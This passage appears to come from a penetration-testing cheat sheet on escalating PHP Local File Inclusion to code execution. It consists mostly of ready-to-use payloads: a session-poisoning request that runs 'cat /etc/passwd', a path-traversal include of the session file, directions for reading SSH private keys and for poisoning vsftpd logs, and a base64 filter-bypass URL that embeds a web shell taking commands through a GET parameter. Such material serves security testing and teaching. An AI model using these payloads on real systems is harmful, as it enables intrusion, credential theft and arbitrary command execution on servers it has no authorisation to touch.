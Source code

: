 ```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into _/var/lib/php5/sess\\_\[PHPSESSID]\_ files

```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

### Use the LFI to include the PHP session file

```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2
```

### Via ssh <a href="#via-ssh" id="via-ssh"></a>

If ssh is active check which user is being used (/proc/self/status & /etc/passwd) and try to access **\<HOME>/.ssh/id\_rsa**

### **Via** **vsftpd** _**logs**_ <a href="#via-vsftpd-logs" id="via-vsftpd-logs"></a>

The logs for the FTP server vsftpd are located at _**/var/log/vsftpd.log**_. In the scenario where a Local File Inclusion (LFI) vulnerability exists, and access to an exposed vsftpd server is possible, the following steps can be considered:

1. Inject a PHP payload into the username field during the login process.
2. Post injection, utilize the LFI to retrieve the server logs from _**/var/log/vsftpd.log**_.

### Via php base64 filter (using base64) <a href="#via-php-base64-filter-using-base64" id="via-php-base64-filter-using-base64"></a>

As shown in [this](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64) article, PHP base64 filter just ignore Non-base64.You can use that to bypass the file extension check: if you supply base64 that ends with ".php", and it would just ignore the "." and append "php" to the base64. Here is an example payload:

```
http://example.com/index.php?page=PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.php

NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

